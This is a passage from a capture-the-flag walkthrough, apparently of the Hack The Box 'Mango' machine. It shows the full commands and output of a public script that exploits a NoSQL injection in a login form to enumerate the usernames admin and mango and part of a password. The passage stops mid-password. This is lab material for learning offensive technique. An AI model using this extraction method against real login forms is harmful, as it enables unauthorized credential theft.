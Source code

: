 Ok, now what? We review the page source but there is nothing of interest. However, since we know there is a NoSQLi in the login form, let's attempt to extract data from the database using the vulnerable form.

To do this, we'll use the following python script:

{% embed url="https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration" %}

Let's clone the repo and run it against the target. First, we'll run it to extract the usernames and then the passwords as follows:

```
└─$ python3 nosqli.py -u http://staging-order.mango.htb/index.php -up username -pp password -ep username -op login:login -m POST 
Pattern found that starts with 'a'
Pattern found: ad                                                                                                 
Pattern found: adm                                                                                                
Pattern found: admi                                                                                               
Pattern found: admin                                                                                              
username found: admin                                                                                             
Pattern found that starts with 'm'                                                                                
Pattern found: ma                                                                                                 
Pattern found: man                                                                                                
Pattern found: mang                                                                                               
Pattern found: mango                                                                                              
username found: mango                                                                                             
                                                                                                                  
2 username(s) found:                                                                                              
admin                                                                                                             
mango

└─$ python3 nosqli.py -u http://staging-order.mango.htb/index.php -up username -pp password -ep username -ep password -op login:login -m POST 
Pattern found that starts with 'h'
Pattern found: h3                                                                                                 
Pattern found: h3m                                                                                                
Pattern found: h3mX                                                                                               
Pattern found: h3mXK                                                                                              
Pattern found: h3mXK8                                                                                             
Pattern found: h3mXK8R                                                                                            
Pattern found: h3mXK8Rh                                                                                           
Pattern found: h3mXK8RhU                                                                                          
Pattern found: h3mXK8RhU~                                                                                         
```